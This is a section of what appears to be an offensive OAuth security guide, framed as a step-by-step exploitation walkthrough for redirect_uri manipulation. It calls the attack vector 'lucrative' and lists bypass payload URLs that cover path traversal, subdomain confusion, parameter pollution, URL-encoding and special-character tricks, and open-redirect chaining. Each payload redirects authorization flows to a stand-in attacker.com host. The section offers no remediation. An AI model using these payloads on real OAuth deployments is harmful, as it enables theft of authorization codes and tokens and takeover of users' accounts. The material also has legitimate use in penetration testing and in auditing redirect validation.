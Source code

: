 ## Redirect URI Manipulation Attacks

Redirect URI manipulation is one of the most common and lucrative attack vectors in OAuth 2.0 implementations. This section covers advanced techniques for identifying and exploiting redirect_uri vulnerabilities.

### Step-by-Step Exploitation Guide

1. **Reconnaissance Phase**
   - Identify the OAuth provider being used (Google, Facebook, Microsoft, custom implementation)
   - Capture the authorization request to analyze parameters
   - Note the original `redirect_uri` value and format

2. **Parameter Analysis**
   - Check if the `redirect_uri` is fully validated or only partially validated
   - Look for patterns in allowed redirect URIs (domain, path, parameters)
   - Identify any whitelisting or validation mechanisms

3. **Bypass Techniques**
   - **Path Traversal**: Try adding path traversal sequences
     ```
     https://legitimate-app.com/callback/../redirect?url=https://attacker.com
     ```
   
   - **Subdomain Confusion**: Test if subdomains are properly validated
     ```
     https://attacker-controlled-subdomain.legitimate-app.com
     https://legitimate-app.com.attacker.com
     ```
   
   - **Parameter Pollution**: Add duplicate parameters to confuse parsers
     ```
     https://legitimate-app.com/callback?redirect_uri=https://attacker.com
     ```
   
   - **URL Encoding Tricks**: Use different encoding schemes to bypass filters
     ```
     https://legitimate-app.com%252f%252fattacker.com
     https://legitimate-app.com%2f%2f.attacker.com
     https://legitimate-app.com%5c%5c.attacker.com
     ```
   
   - **Additional Characters**: Insert special characters that might be ignored
     ```
     https://legitimate-app.com%3F.attacker.com
     https://legitimate-app.com%23.attacker.com
     https://legitimate-app.com:80%40attacker.com
     https://legitimate-app.com%2eattacker.com
     ```
   
   - **Open Redirector Exploitation**: Chain with existing open redirectors
     ```
     https://legitimate-app.com/redirect?url=https://attacker.com
     ```
